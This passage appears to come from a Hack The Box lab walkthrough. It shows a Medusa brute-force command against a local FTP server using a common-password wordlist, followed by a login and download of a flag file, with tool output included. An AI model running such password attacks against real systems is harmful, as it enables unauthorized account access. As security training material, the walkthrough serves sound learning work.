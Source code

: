 #### Targeting the FTP Server

Having identified the FTP server, you can proceed to brute-force its authentication mechanism.

If we explore the `/home` directory on the target system, we see an `ftpuser` folder, which implies the likelihood of the FTP server username being `ftpuser`. Based on this, we can modify our Medusa command accordingly:

```shell-session
smoothment@htb[/htb]$ medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5

Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

GENERAL: Parallel Hosts: 1 Parallel Logins: 5
GENERAL: Total Hosts: 1
GENERAL: Total Users: 1
GENERAL: Total Passwords: 197
...
ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: ... Password: ... [SUCCESS]
...
GENERAL: Medusa has finished.
```

The key differences here are:

* `-h 127.0.0.1`: Targets the local system, as the FTP server is running locally. Using the IP address tells medusa explicitly to use IPv4.
* `-u ftpuser`: Specifies the username `ftpuser`.
* `-M ftp`: Selects the FTP module within Medusa.
* `-t 5`: Increases the number of parallel login attempts to 5.

#### Retrieving The Flag

Upon successfully cracking the FTP password, establish an FTP connection. Within the FTP session, use the `get` command to download the `flag.txt` file, which may contain sensitive information.:

```shell-session
smoothment@htb[/htb]$ ftp ftp://ftpuser:<FTPUSER_PASSWORD>@localhost

Trying [::1]:21 ...
Connected to localhost.
220 (vsFTPd 3.0.5)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp> ls
229 Entering Extended Passive Mode (|||25926|)
150 Here comes the directory listing.
-rw-------    1 1001     1001           35 Sep 05 13:17 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||37251|)
150 Opening BINARY mode data connection for flag.txt (35 bytes).
100% |***************************************************************************|    35      776.81 KiB/s    00:00 ETA
226 Transfer complete.
35 bytes received in 00:00 (131.45 KiB/s)
ftp> exit
221 Goodbye.
```
